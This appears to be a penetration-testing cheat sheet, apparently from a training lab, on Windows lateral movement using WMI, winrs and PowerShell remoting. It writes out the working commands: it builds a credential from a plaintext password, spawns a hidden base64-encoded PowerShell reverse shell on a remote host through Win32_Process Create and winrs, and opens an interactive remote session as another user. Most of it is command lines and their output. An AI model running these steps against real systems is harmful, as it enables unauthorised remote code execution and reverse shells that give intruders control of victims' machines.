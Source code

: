 #### WMI and WinRM (Evil-winrm)

WMI rev shell for user jen (netcat listener needed)

```shell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

Winrs (Windows Remote Shell) rev shell for user jen (netcat listener needed)

```shell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAY..."
```

PowerShell remoting (WinRM built-in capabilities)

```shell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
  
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen
```
